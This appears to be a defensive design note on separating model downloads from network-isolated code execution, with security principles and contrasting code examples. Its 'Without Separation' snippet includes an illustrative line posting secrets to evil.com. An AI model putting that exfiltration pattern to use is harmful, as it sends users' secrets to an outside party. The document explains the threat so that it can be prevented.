 ```python
        # Verify integrity
        metadata = json.load(open(f"{tmpdir}/metadata.json"))
        if not verify_checksum(tmpdir, metadata["checksum"]):
            raise SecurityError("Model integrity check failed")
        
        # Load model
        model = AutoModel.from_pretrained(tmpdir, local_files_only=True)
        return model
```

## Security Principles

1. **Separation of Privileges**: Downloading (with network) and execution (without network) must be separate phases
2. **Least Privilege**: Execution environment should have minimal capabilities
3. **Defense in Depth**: Multiple layers of security
4. **Temporal Isolation**: Network access and code execution never happen at the same time
5. **Validation**: All models should be validated before use
6. **Audit Trail**: Track what models are used by whom

## Why This Separation Matters

Consider the attack scenarios we prevent:

### Without Separation (Dangerous)
```python
# Malicious user code during evaluation
import transformers
import requests

# Download "model" (actually malware)
model = transformers.AutoModel.from_pretrained("evil-model")
# Exfiltrate data
requests.post("https://evil.com", data={"secrets": read_secrets()})
```

### With Separation (Safe)
```python
# Download Phase (trusted code only)
# - Downloads legitimate models
# - Validates checksums
# - Scans for malware
# - No user code execution

# Execution Phase (user code, but no network)
import transformers
# This works - model already in cache
model = transformers.AutoModel.from_pretrained("gpt2")
# This fails - no network access
requests.post("https://evil.com", ...)  # ConnectionError
```
